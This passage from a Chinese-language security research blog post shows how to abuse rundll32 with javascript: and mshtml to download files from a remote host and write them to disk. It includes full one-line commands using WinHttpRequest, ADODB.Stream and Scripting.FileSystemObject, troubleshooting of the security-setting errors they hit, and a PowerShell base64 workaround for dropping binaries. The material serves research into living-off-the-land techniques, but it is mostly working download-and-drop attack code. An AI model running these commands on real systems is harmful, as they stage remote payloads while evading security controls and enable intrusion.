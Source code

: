 该代码缺少判断MicrosoftOffice是否安装的功能

### 2、结合rundll32使用

需要注意如下细节：

- 空格用%20表示
- 为避免执行后弹框，需要加入语句document.write();

否则，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-22.png)

使用ADODB.Stream保存文件，会报错,测试代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);h.Send();s=new%20ActiveXObject("ADODB.Stream");s.Type=1;s.Open();s.Write(h.ResponseBody);x=new%20ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";s.SaveToFile(x,2);`


提示因为安全设置导致无法保存文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-3.png)


换用Scripting.FileSystemObject，能够保存文本文件，但是不支持二进制文件

保存文本文件,测试代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/version.txt",false);h.Send();s=new%20ActiveXObject("Scripting.FileSystemObject");f=s.CreateTextFile("c:\\test\\1.txt",true);f.WriteLine(h.ResponseText);f.Close();`

保存二进制文件，测试代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);h.Send();s=new%20ActiveXObject("Scripting.FileSystemObject");f=s.CreateTextFile("c:\\test\\1.txt",true);f.WriteLine(h.ResponseText);f.Close();`

报错，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-4.png)

**解决方法：**

将二进制文件作base64编码并保存成文本文件，再通过Scripting.FileSystemObject保存


对calc.dll作base64编码并保存至文件buffer.txt,对应powershell代码如下：

```
$fileContent = [System.IO.File]::ReadAllBytes('calc.dll')
$fileContentEncoded = [System.Convert]::ToBase64String($fileContent)| set-content ("buffer.txt") 
```

**注：**
